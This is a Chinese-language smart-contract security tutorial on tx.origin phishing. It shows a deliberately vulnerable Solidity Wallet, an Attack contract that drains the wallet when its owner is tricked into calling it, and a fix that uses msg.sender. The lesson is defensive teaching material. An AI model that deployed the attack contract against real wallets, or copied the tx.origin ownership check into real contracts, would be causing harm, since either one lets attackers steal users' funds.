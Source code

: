 # 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。


Wallet是一个简单的合约，只有所有者才能将以太币转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。


1. Alice部署Wallet并存入10个以太币
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太币

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太币转移到了Eve。

### 钱包合约
部署钱包合约，包含一个owner状态变量用于记录合约的拥有者，包含一个构造函数和一个public函数：
* 构造函数: 在创建合约时给owner变量赋值.
* transfer(): 该函数会获得两个参数_to和_amount，先检查tx.origin == owner，无误后再给_to转账_amount数量的ETH。注意：这个函数有被钓鱼攻击的风险！
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 共计合约

它的攻击逻辑非常简单，就是构造出一个attack()函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有2个状态变量owner和wallet，分别用来记录黑客地址和要攻击的钱包合约地址。

它包含2个函数：

* 构造函数:初始化wallet合约地址.
* attack()：攻击函数，该函数需要钱包合约的owner地址调用，owner调用攻击合约，攻击合约再调用钱包合约的transfer()函数，确认tx.origin == owner后，将银行合约内的余额全部转移到黑客地址中。

```solidity

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth
![73-1.jpg](./img/73-1.jpg)
2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth
![73-2.jpg](./img/73-2.jpg)
3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
![73-3.jpg](./img/73-3.jpg)